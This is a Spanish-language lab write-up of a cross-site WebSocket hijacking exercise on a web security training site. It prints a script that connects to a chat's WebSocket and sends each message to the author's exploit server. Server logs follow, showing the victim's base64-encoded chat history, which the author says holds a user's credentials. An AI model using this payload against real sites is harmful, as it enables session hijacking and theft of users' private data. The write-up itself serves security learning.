





## LAB

En el sitio web podemos observar que tenemos un live chat. Este live chat tiene un historial el cual esta asociado a tu sesión.  



Revisando el siguiente post, podemos ver que se puede construir un código malicioso el que puede ser enviado a la victima.

- https://pentest-tools.com/blog/cross-site-websocket-hijacking-cswsh

```c
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

De esta manera podemos construir un websocket, para luego enviar toda la información a nuestro exploit server  

```c
<script>
    var ws = new WebSocket('wss://0a7a009d032e8dd8819cd49f00910055.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://exploit-0a32006903318d058129d30f013100a3.exploit-server.net/data='+btoa(event.data));
    };
</script>
```

Agregamos en nuestra exploit server, así como los headers



Guardamos y luego enviamos al usuario victima. Al enviar y ver los logs, podremos ver el chat que tiene el usuario victima.



```c
10.0.3.141      2026-02-23 22:27:37 +0000 "GET /exploit/ HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.141      2026-02-23 22:27:37 +0000 "GET /data=eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6IkhlbGxvLCBob3cgY2FuIEkgaGVscD8ifQ== HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.141      2026-02-23 22:27:37 +0000 "GET /data=eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IkkgZm9yZ290IG15IHBhc3N3b3JkIn0= HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.141      2026-02-23 22:27:37 +0000 "GET /data=eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6Ik5vIHByb2JsZW0gY2FybG9zLCBpdCZhcG9zO3MgZ3NodmFjNnh6eDBjaHo0aXUwbTMifQ== HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.141      2026-02-23 22:27:37 +0000 "GET /data=eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IlRoYW5rcywgSSBob3BlIHRoaXMgZG9lc24mYXBvczt0IGNvbWUgYmFjayB0byBiaXRlIG1lISJ9 HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.141      2026-02-23 22:27:37 +0000 "GET /data=eyJ1c2VyIjoiQ09OTkVDVEVEIiwiY29udGVudCI6Ii0tIE5vdyBjaGF0dGluZyB3aXRoIEhhbCBQbGluZSAtLSJ9 HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
190.238.136.102 2026-02-23 22:27:37 +0000 "GET / HTTP/1.1" 200 "user-agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
```

Al decodificar podremos ver que en este chat se tiene credenciales para el usuario Carlos.



